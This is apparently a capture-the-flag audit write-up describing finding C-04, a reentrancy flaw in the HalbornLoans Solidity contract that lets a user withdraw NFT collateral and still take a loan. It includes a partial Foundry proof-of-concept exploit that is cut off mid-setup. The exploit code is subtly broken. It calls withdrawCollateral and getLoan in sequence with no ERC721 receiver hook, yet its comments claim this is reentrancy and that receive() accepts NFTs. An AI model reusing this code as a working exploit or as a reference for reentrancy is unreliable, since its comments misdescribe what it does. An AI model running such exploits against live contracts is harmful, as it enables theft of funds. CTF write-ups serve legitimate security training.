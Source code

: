 
### **C-04: User Can Exit the Protocol with Both Their NFT and a Loan**
- **Link:** [HalbornLoans.sol#L53](https://github.com/HalbornSecurity/CTFs/blob/6bc8cc1c8f5ac6c75a21da6d5ef7043f0862603b/HalbornCTF_Solidity_Ethereum/src/HalbornLoans.sol#L53)

### **Description:**
The `withdrawCollateral` function fails to follow the **Checks-Effects-Interactions (CEI)** pattern, creating a vulnerability. Specifically, the `safeTransferFrom` call hands back control to the user if it is a contract. This opens up the possibility for a **reentrancy attack**, where a malicious user can take out a loan **before their collateral is properly decreased**.



### POC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/HalbornLoans.sol";
import "../src/HalbornToken.sol";
import "../src/HalbornNFT.sol";

contract MaliciousContract {
    HalbornLoans public loans;
    HalbornToken public token;

    constructor(address _loans, address _token) {
        loans = HalbornLoans(_loans);
        token = HalbornToken(_token);
    }

    // Reentrancy attack: Withdraw NFT and get loan before collateral decreases
    function attack(uint256 nftId, uint256 loanAmount) external {
        loans.withdrawCollateral(nftId); // Triggers reentrancy
        loans.getLoan(loanAmount); // Take a loan during reentrancy
    }

    // Receive function to accept NFTs during the reentrancy attack
    receive() external payable {}
}

contract HalbornLoansTest is Test {
    HalbornLoans loanContract;
    HalbornToken token;
    HalbornNFT nft;
    MaliciousContract attacker;

    function setUp() public {
        token = new HalbornToken();
        nft = new HalbornNFT();
        loanContract = new HalbornLoans(1 ether);

        // Initialize contracts
        loanContract.initialize(address(token), address(nft));

        // Deploy malicious contract
        attacker = new MaliciousContract(address(loanContract), address(token));

        // Mint an NFT to the attacker and approve the loan contract
        nft.mint(address(attacker), 1);
        vm.prank(address(attacker));
```
